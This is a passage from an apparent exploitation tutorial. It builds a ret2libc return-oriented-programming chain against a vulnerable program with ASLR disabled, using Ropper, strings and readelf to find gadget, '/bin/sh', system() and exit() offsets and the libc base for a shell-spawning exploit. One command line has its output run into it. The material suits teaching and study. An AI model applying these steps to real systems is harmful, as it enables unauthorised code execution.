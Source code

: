 Using the stack-map from the previous paragraph, we will start by finding the address of a POP RDI, RET gadget in libc:

*   **Locate the libc library file:**

![](https://miro.medium.com/max/1400/1*pQniN-wBDT1xPozyckBBww.png)

/usr/lib/x86_64-linux-gnu/libc-2.31.so

*   **Locate a the gadget (in libc):**

There are various tools that can be used for this purpose, in this case we are going to use [https://github.com/sashs/Ropper](https://github.com/sashs/Ropper):

![](https://miro.medium.com/max/1400/1*tK8xDcokp0i8KB8gLu-ySA.png)

> Keep a note of the offset **0x26b72** and let’s move to the next step

*   **Scan the entire libc file for a string “/bin/sh” and print the location of the string in base 16:**

```
$ strings -a -t x /usr/lib/libc.so.6 | grep /bin/sh1b75aa /bin/sh
```

> Keep a note of the offset **0x1b75aa** and let’s move to the next step

*   **Locate a the system() function using readelf:**

```
$ readelf -s libc-2.31.so | grep system
....
 1427: 0000000000055410 45 FUNC WEAK DEFAULT 16 system@@GLIBC_2.2.5
```

> Keep a note of the offset **0x55410** and let’s move to the next step

*   **Similarly to system() locate a the exit() function using readelf:**

```
$ readelf -s libc-2.31.so | grep exit
...
   135: 0000000000049bc0    32 FUNC    GLOBAL DEFAULT   16 exit@@GLIBC_2.2.5
```

> Keep a note of the offset **0x49bc0** and let’s move to the next step

*   **Find the base address of the libc function:**

As you understand, the offsets that we discovered above will be added to the address where the libc will be loaded. Since ASLR is disabled, this address will be the same every time that we run the vulnerable program and can be found by examining the process’s memory allocation:

![](https://miro.medium.com/max/1400/1*MNVzoSJYUpxZteeNxU09AA.png)

> Keep a note of the offset 0x00007ffff7dc5000

And let’s now modify the exploit script:

![](https://miro.medium.com/max/1394/1*HgT0sfq3D0aXr2tiTu8HqQ.png)
